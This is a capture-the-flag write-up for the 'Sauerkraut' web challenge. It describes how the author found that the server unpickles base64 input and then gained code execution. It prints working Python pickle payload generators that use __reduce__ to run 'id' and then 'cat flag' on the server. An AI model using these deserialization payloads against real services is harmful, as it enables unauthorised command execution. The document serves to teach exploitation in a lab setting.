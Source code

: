 # Sauerkraut (Web)

This was a web challenege that had text form where we can submit text

<img src="https://i.imgur.com/5CYfcie.png"/>

On entering some text , it gave us an error about "invalid base64"

<img src="https://i.imgur.com/oDbT5nw.png"/>

So after inputtting encoded text we get this 

<img src="https://i.imgur.com/yPef4wk.png"/>

It then showed that "it could not find MARK" , I didn't know what that meant so I just encoded that text

<img src="https://i.imgur.com/bLE5Swn.png"/>

And when I submitted that , it showed me "pickle data was truncated"

<img src="https://i.imgur.com/zB07yni.png"/>

Here I then goolged `pickle` , and found that it's a library or module that allows you to serliaze data , convert them into objects so that it can be passed for different process

<img src="https://i.imgur.com/QB4otDA.png"/>

And this lead me to exploiting to pickle in python , I found a resource where it showed RCE for pickle so this is the PoC that I found 

```python
import base64
import codecs
import pickle

class RCE(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.check_output, (['id'], ) )
class RCEStr(object):
    def __reduce__(self):
        return (codecs.decode, (RCE(), 'utf-8') )

pickle_data = pickle.dumps({'name': RCEStr()})
payload = base64.urlsafe_b64encode(pickle_data)
print(payload.decode('utf-8'))
```

<img src="https://i.imgur.com/59wwxtf.png"/>

<img src="https://i.imgur.com/sTPtoSR.png"/>

Perfect , we have found the we can do remote code execution , all that is left is to find the flag , so I ran `ls` command to see if there's a file we can read

<img src="https://i.imgur.com/bUPduRx.png"/>

```python
import base64
import codecs
import pickle

class RCE(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.check_output, (['cat','flag'], ) )
class RCEStr(object):
    def __reduce__(self):
        return (codecs.decode, (RCE(), 'utf-8') )

pickle_data = pickle.dumps({'name': RCEStr()})
payload = base64.urlsafe_b64encode(pickle_data)
print(payload.decode('utf-8'))
```

<img src="https://i.imgur.com/KOvSXVb.png"/>

## References

- https://davidhamann.de/2020/04/05/exploiting-python-pickle/
- https://medium.com/@jonoans/sans-mixed-discipline-ctf-wx01-283b6795d34a